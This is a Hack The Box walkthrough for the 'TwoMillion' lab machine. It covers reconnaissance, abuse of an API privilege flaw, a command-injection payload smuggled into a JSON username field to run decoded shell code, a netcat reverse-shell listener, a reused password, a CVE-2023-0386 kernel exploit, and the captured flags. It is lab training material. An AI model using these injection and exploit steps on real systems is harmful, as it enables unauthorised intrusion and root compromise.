 # TwoMillion – Hack The Box

**Operating System:** Linux  
**Difficulty:** Easy  
**Author:** TRX & TheCyberGeek  
**Date of Engagement:** 2025-07-28  

---

## Engagement Overview

**Target IP:** 10.10.11.221  
**Local IP:** 10.10.16.9  
**Objective Summary:**
- Enumerate available API endpoints
- Gain initial access via web application vulnerabilities
- Escalate privileges to root using a kernel exploit (CVE-2023-0386)

---

## Initial Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -Pn 10.10.11.221
```

**Result Summary:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

### Host Info

```
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64
Ubuntu 22.04.2 LTS (Jammy)
```

**Note:** Add `2million.htb` to `/etc/hosts` for web access.

---

## Web Enumeration & Initial Access

1. Accessing the web server shows a legacy version of the HackTheBox platform.
2. JavaScript file `inviteapi.min.js` contains obfuscated code to generate an invite.
3. Deobfuscation reveals hidden POST routes:
   - `/api/v1/invite/how/to/generate`
   - `/api/v1/invite/generate`
4. Using the above endpoints, a valid invite code is generated and a user is registered.

### Account Creation via Invite Flow

```bash
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

Base64 decoded invite code used to register a user at `/register`.

---

## Gaining Administrative Access

After login:
1. Explored API endpoints using the session cookie.
2. Endpoint `/api/v1/admin/settings/update` lacks proper validation and allows privilege escalation.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"email":"test@2million.htb", "is_admin": 1}'
```

Admin privilege verified:
```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=<session>" | jq
```

---

## Remote Command Execution

Using elevated privileges, command injection achieved via:
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate   --cookie "PHPSESSID=<session>"   --header "Content-Type: application/json"   --data '{"username":"test;echo <base64_payload> | base64 -d | bash;"}'
```

Reverse shell caught via Netcat:
```bash
nc -lvnp 1234
```

---

## Lateral Movement

1. Discovered `.env` in web root containing DB credentials.
2. SSH login as `admin` succeeded due to password reuse.

```bash
ssh admin@2million.htb
# Password: SuperDuperPass123
```

---

## Privilege Escalation

1. Enumerated `/var/mail/admin`, found advisory about kernel vulnerabilities.
2. Kernel version confirmed as vulnerable to CVE-2023-0386.

### Exploit Steps:
```bash
# Upload exploit to /tmp and unzip
scp cve.zip admin@2million.htb:/tmp
unzip cve.zip && cd CVE-2023-0386
make all
./fuse ./ovlcap/lower ./gc &
./exp
```

**Root Shell Acquired.**

---

## Post-Exploitation

- `user.txt`: `b475fff37c4ba394114ba0602756546d`
- `root.txt`: `b24036bdc728d59ab7230cddbf43798b`

Discovered `thank_you.json` in `/root/`, triple-encoded message decoded using CyberChef.

---

## Tools Utilized

- Nmap
- Curl & jq
- Burp Suite
- CyberChef
- De4js
- GitHub Exploit CVE-2023-0386

---

## Key Takeaways

- JavaScript deobfuscation and endpoint hunting can lead to privilege escalation.
- Misconfigured API logic in `update_settings` allowed user promotion.
- VPN generation endpoint enabled code injection via unsanitized shell execution.
- Kernel version vulnerable to CVE-2023-0386 provided full system compromise.

---
